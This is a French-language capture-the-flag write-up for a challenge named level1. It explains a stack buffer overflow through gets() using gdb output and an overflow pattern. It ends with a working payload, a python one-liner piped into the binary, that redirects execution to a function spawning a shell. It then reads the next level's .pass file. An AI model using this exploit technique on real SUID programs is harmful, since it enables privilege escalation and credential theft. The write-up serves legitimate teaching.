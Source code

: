 level1:

On prend le reflex de decompiler le binaire (cf source)
On voit une fonction run() qui a un return system("/bin/sh") qu'il va falloir exploiter


(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave  
   0x08048496 <+22>:    ret 

Donc ici il faut qu'on trouve un moyen de faire executer run() au programme car ce n'est actuellement pas le cas

Ici notre principal allie est la fonction gets() qui ne verifie pas l'entree donnee
Elle nous permet d'ecrire sur le stack pour faire un buffer overflow
Imaginons si un buffer[64] est envoye sur la stack, si j'envoie 70 char dans gets je vais pouvoir modifier des zones memoires

Qu'est ce que je peux modifier ?

La stack est une pile donc c'est empile et chaque fonction a sa stack frame
Ok et ca nous avance a quoi de savoir ca ?

Et bien a chaque call d'une fonction il se passe en realite deux operations :
    push EIP
    jmp <adresse de la fonction>

Avant de jump a l'adresse de la fonction il va push sur la stack EIP
EIP est l'instruction pointer
C'est un moyen indispensable pour un programme de garder son flux d'execution,
car a la fin de la stack frame de la fonction call il va bien falloir revenir la ou elle a ete appelee

En sachant cela, on peut regarder sur gdb:

Commencons par mettre un break point et run notre programme
(gdb) i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048481 in main; saved eip 0xb7e454d3

Avec seulement ces informations on sait que le saved eip est en fait le retour de la fonction main

On peut afficher l'instruction a <adresse> avec x/i
(gdb) x/i 0xb7e454d3
   0xb7e454d3 <__libc_start_main+243>:  mov    %eax,(%esp)

Donc le retour de la fonction main ira a <__libc_start_main+243>

Ne sera-t-il pas la notre moyen d'envoyer le retour de la fonction main a la fonction run() ?
Essayons de modifier cela:

Deja pour trouver l'adresse de run on peut :
(gdb) p run
    1 = {<text variable, no debug info>} 0x8048444 <run>

Nous avons donc maintenant tout les elements pour parvenir a executer run et notre appel system("/bin/sh")

Mais quel registre modifier et comment le faire ?

On peut utiliser un pattern d'overflow : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Cela nous permet d'avoir un offset entre le buffer et l'adresse a modifier (ebp+4)
Envoyons ce pattern a get

x/4x %ebp
0xbffff728:     0x41346341      0x63413563      0x37634136      0x41386341

On voit que les caracteres ascii de notre chaine a ecraser la memoire
On peut envoyer ebp+4 (0x63413563) sur notre site (https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)
Qui va calculer l'offset entre le debut du pattern et la valeur contenu dans ebp+4
Cela nous donne 76 d'offset

Nous savons maintenant qu'il faut ecraser 76 bytes memoire avant d'atteindre ebp+4
Plus qu'a faire une petite commande python et envoyer 

(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1

Via gdb on pouvait set ebp+4 directement
(gdb) set {int}(ebp+4)=0x8048444

Mais gdb a des protections et cela nous permet pas d'executer le programme avec le bit SUID
Donc oblige de passer en ligne de commande ou via un script extern a gdb

cat /home/user/level2/.pass